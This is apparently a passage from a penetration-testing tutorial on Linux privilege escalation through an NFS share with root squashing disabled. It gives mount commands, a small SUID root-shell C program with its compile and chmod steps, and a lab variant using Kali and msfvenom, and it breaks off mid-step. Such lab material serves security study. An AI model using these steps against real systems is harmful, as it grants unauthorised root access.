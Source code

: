 Mount one of the "no_root_squash" shares from our attacking machine

```
mkdir <local tmp folder>
mount -o rw <ip>:/<path to mountable share> <created local tmp folder>
```

**Step 3**

As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job.

```
int main()
{
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
```

```
gcc nfs.c -o nfs -w
chmod +s nfs
ls -l nfs
```

**Step 4**

Change to the victim prompt and launch the script.

```
./nfs

```

**Technique 1**

Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

```
cat /etc/exports
```

**Note that the /tmp share has root squashing disabled.**

Kali box: Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

```
sudo su
mkdir /tmp/nfs
mount -o rw,vers=3 <IP>:/tmp /tmp/nfs

```

Generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):
